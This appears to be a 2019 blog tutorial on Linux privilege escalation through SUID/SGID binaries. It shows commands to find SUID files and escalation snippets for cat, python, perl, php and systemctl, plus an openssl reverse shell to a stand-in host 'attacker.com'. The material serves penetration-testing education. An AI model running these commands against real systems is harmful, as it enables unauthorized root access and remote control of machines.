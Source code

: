 ```yaml
---
layout: post
title: 'SUID Executables - Basic Linux Privilage Escalation '
description: An example post which shows code rendering.
date: '2019-05-23 21:03:36 +0530'
categories: Javascript NodeJS
published: true
---
```


SUID and GUID are useful features when  unprivilaged users are needed to access a program. With them, if unprivileged user access files which are set suid, files run with its owner permissions. Also, guid is similar to suid. In this time program runs with groups permissions.
For example; when user "thomas" runs below file, file run with intern privileges because of suids.

![Screenshot from 2019-07-18 14-41-08.png]({{site.baseurl}}/_posts/Screenshot from 2019-07-18 14-41-08.png)


To give suid ,guid can be run below command.

```bash
chmod u+s file.sh
chmod g+s file.sh
```

SGID and SUID are also dangerous as much as they are useful. With them, security holes can be easily opened. So they should be used carefully. 

To find all suid,guid files on computer below command can be run.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```


How to escalate our privileges using SUID?

For each program, our approach will be different.
About that there is a wonderful website which includes information about how used each program to escalation.

[https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)

Let's look at some commands how they used in escalation.


### cat

To use cat to access all files directly use it. 

```bash
LFILE=file_to_read
cat "$LFILE"
```
### opensssl

To escalate our privileges we can get reverse shell with openssl
by running below command on attacker machine, we make certificates to ssl connection.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
```

then we connect to the attacker by below commands. Our connection encrypted.

```bash
RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```
### python, perl, php

All compilers are so dangerous to give suids. With then we directly open privilaged shell

```bash
php -r "pcntl_exec('/bin/sh', ['-p']);"
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
./perl -e 'exec "/bin/sh";'
```
### systemctl

Systemctl a command to control systemd which runs, creates, stops services on computer. With creating our services we escalate our privileges.

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```

